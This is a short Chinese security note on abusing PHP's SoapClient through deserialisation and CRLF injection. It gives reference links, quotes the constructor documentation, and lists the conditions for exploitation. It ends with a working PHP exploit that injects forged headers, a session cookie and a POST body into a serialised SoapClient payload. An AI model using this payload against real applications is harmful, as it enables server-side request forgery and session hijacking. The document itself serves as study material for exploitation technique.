

# Soap和CRLF攻击

## 参考文章

- https://www.anquanke.com/post/id/153065#h2-5
- https://xz.aliyun.com/t/2148#toc-0
- https://segmentfault.com/a/1190000003791120
- http://blog.securelayer7.net/owasp-top-10-penetration-testing-soap-application-mitigation/

## 简介

### 函数构造

```php
public SoapClient::SoapClient ( mixed $wsdl [, array $options ] )
```

>  **options**
>
> An array of options. If working in WSDL mode, this parameter is optional. If working in non-WSDL mode, the *location* and *uri* options must be set, where *location* is the URL of the SOAP server to send the **request to**, and *uri* is the target namespace of the SOAP service.

## CRLF攻击

### 利用条件

- 需要进行反序列化
- 调用一个方法，且该方法不存在。以此激活__call()

### 利用范围

- (PHP 5, PHP 7)

### Exp

```php
<?php
$target = "http://xxx.xxx.xxx.xxx:5555/";
$post_string = 'data=abc';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: PHPSESSID=3stu05dr969ogmprk28drnju93'
);
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '. (string)strlen($post_string).'^^^^'.$post_string,'uri'=>'hello'));
$aaa = serialize($b);
$aaa = str_replace('^^',"\n\r",$aaa);
echo urlencode($aaa);
$aa=unserialize($aaa);
$aa->test();
```

